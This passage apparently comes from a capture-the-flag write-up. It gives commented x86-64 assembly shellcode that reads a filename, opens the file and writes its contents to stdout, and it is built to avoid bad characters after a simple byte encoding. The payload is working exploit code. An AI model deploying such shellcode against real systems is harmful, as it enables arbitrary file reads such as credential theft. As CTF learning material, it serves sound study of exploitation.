 The actual shellcode is nearly the same one used above. It reads in the name of the file you want to read (terminate with `^@` or `0x00` by typing Ctrl+space). It then opens that file, reads from it, storing the data on the stack. It finally writes the contents of the file back to us.

```
bits 64

_start:

push byte 0         ; we can use 0 here because we add 1 to each 
                    ; byte in the shellcode to 'encode' it.
pop rbx             ; store this value in rbx. We'll re-use it later.
push rbx            ; copy rbx...
pop rax             ; ...to rax. rax is now 0, the syscall for 'read'
push rbx            ; copy rbx...
pop rdi             ; ...to rdi: fd = stdin 
push rsp            ; copy rsp to rsi
pop rsi             ; rsi is the buffer to which we read the filename to open
                    
push byte 18        ; the filename will be 18 bytes long
pop rdx             ; amount of byte to read
syscall             ; read in the filename

push rbx            ; rbx is still 0
pop rax             ; zero out rax
xor al, 2           ; syscall open. I had to use the xor here to avoid badchars after encoding this shellcode.
push rdi            ; switch around some registers. rdi = 0
push rsi            ; rsi = pointer to filename
pop rdi             ; rdi now points to filename to open
pop rsi             ; rsi = 0, which is O_RDONLY
syscall             ; open file

                    ; switch around the registers again. 
                    ; have to use the push/pops, because `xchg` would generate a badchar after encoding.
push rax            ; filehandle of just opened file
push rsi            ; rsi = 0
push rdi            ; rdi = pointer to top of stack
pop rsi             ; rsi = buf
pop rax             ; rax = 0 (syscall read)
pop rdi             ; rdi = filehandle
push byte 127       ; amount of bytes to read
pop rdx             ; in rdx
syscall             ; read in the contents of the file

push rbx            ; rbx is still 0
pop rax             ; zero out rax
xor al, 1           ; syscall write
push rax            ; copy rax to rdi
pop rdi             ; filehandle = 0 (stdout)
                    ; rsi = still pointer to buffer
                    ; rdx = still 0x7f
syscall             ; write to stdout; get me the flag!
ret                 ; return to handler program
```
